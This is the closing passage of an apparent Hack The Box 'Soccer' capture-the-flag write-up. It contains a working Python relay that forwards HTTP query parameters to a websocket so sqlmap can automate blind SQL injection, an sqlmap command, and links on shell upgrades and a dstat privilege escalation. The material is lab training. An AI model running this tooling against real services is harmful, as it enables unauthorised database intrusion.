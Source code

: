 ```python

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
``` 

```bash
sqlmap -u 'http://localhost:8081/?id=73901'
```


[^htb-link]: <https://www.hackthebox.com/machines/soccer>
[^upgrade-reverse-shell]: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>
[^sql-over-websockets]: <https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html>
[^gtfobins]: <https://gtfobins.github.io/gtfobins/dstat/>